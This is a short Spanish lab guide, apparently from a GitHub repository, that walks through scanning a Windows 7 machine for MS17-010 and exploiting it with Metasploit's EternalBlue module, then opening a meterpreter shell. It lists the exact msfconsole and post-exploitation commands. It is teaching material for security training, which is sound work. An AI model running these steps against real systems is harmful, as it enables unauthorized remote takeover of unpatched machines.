 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo:Windows 7 , 64 bits, con el Firewall inactivo  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
```
Search ms17_10
```
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```



**Exploiting**
* use exploit/windows/smb/ms17_010_eternalblue
* show options 
* set RHOST < Rhost-id > 
* exploit 
 
**Post Exploitation**
* Sysinfo
* Getuid
* Shell

Enlace para mayor información
----- https://www.metasploit.com/
